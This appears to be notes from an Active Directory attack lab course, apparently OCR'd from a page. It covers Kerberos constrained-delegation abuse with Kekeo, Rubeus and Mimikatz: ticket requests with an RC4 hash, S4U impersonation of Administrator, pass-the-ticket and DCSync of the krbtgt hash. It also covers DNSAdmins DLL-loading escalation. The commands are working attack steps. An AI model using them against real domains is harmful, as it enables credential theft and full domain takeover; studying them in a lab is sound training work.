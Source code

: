 ### Different Services

#### Using asktgt from Kekeo, we request a TGT for dcorp-adminsrv:
```powershell
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

#### Using s4u from Kekeo_one (no SNAME validation):
```powershell
tgs::s4u /tgt:TGT_dcorpadminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi /user:Administrator@dollarcorp.moneycorp.local /service:time/dcorpdc.dollarcorp.moneycorp.LOCAL|ldap/dcorpdc.dollarcorp.moneycorp.LOCAL
```

#### Using mimikatz:
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorpdc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL.kirbi"'

# Dump hashes with DCSync since we have exported TGS
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

# With Rubeus
.\Rubeus.exe s4u /user:dcorp-adminsrv$ /rc4:1fadb1b13edbc5a61cbdc389e6f34c67 /impersonateuser:Administrator /msdsspn:"time/dcorpdc.dollarcorp.moneycorp.LOCAL" /altservice:ldap /ptt

# Dump hashes with DCSync since we have TGS from Rubeus
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# Learning Objective 18

• Enumerate users in the domain for whom Constrained Delegation is enabled. 
– For such a user, request a TGT from the DC and obtain a TGS for the service to which delegation is configured. 
– Pass the ticket and access the service as DA. 

• Enumerate computer accounts in the domain for which Constrained Delegation is enabled. 
– For such a user, request a TGT from the DC.
– Use the TGS for executing the DCSync attack.

# DNSAdmins

• It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).
• In case the DC also serves as DNS, this will provide us escalation to DA. 
• Need privileges to restart the DNS service.

#### Enumerate the members of the DNSAdmis group
```powershell
Get-NetGroupMember -GroupName "DNSAdmins"

# AD Module
Get-ADGroupMember -Identity DNSAdmins
```

